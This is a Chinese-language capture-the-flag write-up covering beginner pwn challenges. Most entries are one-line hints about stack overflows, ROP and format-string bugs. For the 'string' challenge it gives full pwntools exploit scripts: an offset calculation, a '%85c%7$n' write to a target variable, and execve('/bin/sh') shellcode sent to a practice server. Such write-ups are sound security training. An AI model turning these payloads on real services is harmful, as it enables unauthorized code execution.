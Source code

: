 # pwn
## 新手练习区
### get_shell
题目：运行就能拿到shell呢，真的

思路：

### CGfsb296
题目：菜鸡面对着pringf发愁，他不知道prinf除了输出还有什么作用

思路：利用格式化字符串漏洞利用方法读写任意地址

### when_did_you_born12
题目：只要知道你的年龄就能获得flag，但菜鸡发现无论如何输入都不正确，怎么办

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### hello_pwn
题目：pwn！，segment fault！菜鸡陷入了深思

思路：简单的栈溢出，利用字符串变量覆盖另一个变量

### level0
题目：菜鸡了解了什么是溢出，他相信自己能得到shell

思路：简单的64位栈溢出

### level2
题目：菜鸡请教大神如何获得flag，大神告诉他‘使用`面向返回的编程`(ROP)就可以了’

思路：简单的栈溢出，利用ROP获得shell

### cgpwn2
题目：菜鸡认为自己需要一个字符串

思路：简单的栈溢出，首先利用一个固定地址的全局变量保存/bin/sh字符串，然后利用ROP获得shell

### string
题目：菜鸡遇到了Dragon，有一位巫师可以帮助他逃离危险，但似乎需要一些要求

思路：简单的64位格式化字符串漏洞，先利用改漏洞修改一个堆上的变量，然后写入shellcode即可

解题：函数sub_400BB9存在格式化字符串漏洞，直接使用printf输出了format变量，这里首先确定可控制字符串format的偏移。有两种方法。

#### 偏移计算一：通过逆向和调试确定分析调用printf之前栈的分布

栈顶8个字节（没什么作用），往下8个字节的v2变量，再往下是format字符串。
```
rsp    --> 8字节垃圾
rsp+8  --> 8字节变量v2
rsp+16 --> format字符串
```

由于64位传参时，前6个参数使用寄存器，这里第一个参数是rdi，也就是format地址本身，后面5几个寄存器依次保存5个参数，栈顶8个字节是第6个参数，v2是第第7个参数，format是8个参数，因此偏移为8。

#### 偏移计算二：使用pwntools工具包自动计算
```python
context.bits = 64

def leak(payload):
    sh = remote('220.249.52.133', 59913)
    sh.recvuntil('be:\n')
    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    sh.sendline('1')
    sh.recvuntil(':\n')
    sh.sendline(payload)
    info = sh.recvuntil('I hear')
    sh.close()
    return info

autofmt = FmtStr(leak)
print(autofmt.offset)
```

下面分析需求修改的变量，通过逆向分析，程序初始化了两个变量，一个为字符D，一个为字符U，如果这两个变量相等可以进入输入shellcode的逻辑，正常情况是不可能的，这里就利用字符串格式化漏洞实现。首先输入v2变量，内容为secret[0]的地址，然后format输入以下内容 %85c%7$n ,将第7个参数（v2）指向的内容写入85，也就是字符U。

后续输入shellcode可以使用pwntools，我这里是通过msf生成的。全部代码如下：
```python
def execute():
    sh = remote('220.249.52.133', 59913)
    info = sh.recvuntil('be:\n')
    info = str(info, encoding='utf8')
    addr = ''
    for line in info.split('\n'):
        if '[0]' in line:
            # 保存待修改变量地址
            addr = line.split(' ')[-1].strip()
            break
    print('secret addr:')
    print(addr)
    addr = int(addr, 16)

    sh.sendline('1')
    sh.recvuntil('up?:\n')
    sh.sendline('east')
    sh.recvuntil('?:\n')
    sh.sendline('1')
    sh.recvuntil("'\n")
    # 将待修改变量地址写入v2
    sh.sendline(str(addr).encode('utf8'))
    sh.recvuntil(':\n')
    
    # 利用这段payload修改变量
    payload = r'%85c%7$n'
    print(payload)
    sh.sendline(payload)
    print(sh.recvuntil('USE YOU SPELL'))

    # 写入shellcode
    shellcode = "\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00" + "\x53\x48\x89\xe7\x68\x2d\x63\x00\x00\x48\x89\xe6\x52\xe8" + "\x08\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00\x56\x57" + "\x48\x89\xe6\x0f\x05"
    sh.sendline(shellcode)
    sh.interactive()
````
